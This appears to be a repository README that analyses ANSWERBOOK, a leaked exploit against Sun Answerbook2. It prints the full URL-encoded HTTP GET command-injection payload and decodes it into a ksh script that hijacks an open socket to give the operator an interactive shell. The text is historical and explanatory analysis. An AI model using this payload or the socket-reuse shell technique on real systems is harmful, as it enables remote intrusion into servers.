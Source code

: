 # ANSWERBOOK

ANSWERBOOK is an RCE exploit for Sun Answerbook2. Given the software and the opsnotes, it's likely that this exploit was used around 2000-2005.

According to [abopscript.txt](https://github.com/CybernetiX-S3C/EQGRP_Linux/blob/master/Linux/doc/old/etc/abopscript.txt) it will trigger a shell using the following HTTP GET command:
```
GET /ab2/@LegacyPageView?ps=`echo%20"\%0A(/bin/ksh<<\%2B%0As=63%0Awhile%20[%20ABC%20-gt%208%20]%0Ado%0A[[%20-S%20/dev/fd/ABC%20]]%20%26%26%20break%0A((s=ABC-1))%0Adone%0A[%20ABC%20-gt%208%20]%20%26%26%20exec%20sh%20-i%20</dev/fd/ABC%20>%20/dev/fd/ABC%202>%261%20%26%0A%2B%0A)2>/dev/null%26%0A"%20|%20sed%20's/ABC/$s/g'%20|%20sh` HTTP/1.0
```

Cleaning up the command a bit:
```
echo "\
(/bin/ksh<<\+
s=63
while [ ABC -gt 8 ]
do
[[ -S /dev/fd/ABC ]] && break
((s=ABC-1))
done
[ ABC -gt 8 ] && exec sh -i </dev/fd/ABC > /dev/fd/ABC 2>&1 &
+
)2>/dev/null&
" | sed 's/ABC/$s/g' | sh
```

Cleaning it even more, it runs this command using `sh`:
```
(/bin/ksh<<\+
	s=63
	while [ $s -gt 8 ]
	do
		[[ -S /dev/fd/$s ]] && break
		((s=$s-1))
	done
	[ $s -gt 8 ] && exec sh -i </dev/fd/$s > /dev/fd/$s 2>&1 &
+
)2>/dev/null &
```

The `<<\+` until the `+` is a HEREDOC, essentially executing the commands with `/bin/ksh`. It will find a find a filedescriptor (bigger than 8) that is a socket and redirect the input and output to a shell, giving the Operator a shell.

## Reason for 2000-2005

Above, I vaguely mention that according to the opsnotes and software, the exploit was used in the period of 2000-2005. The reasons for this are:

* `/tmp/.X11R6`: as "work" folder for an Operation.
* The use of nosy
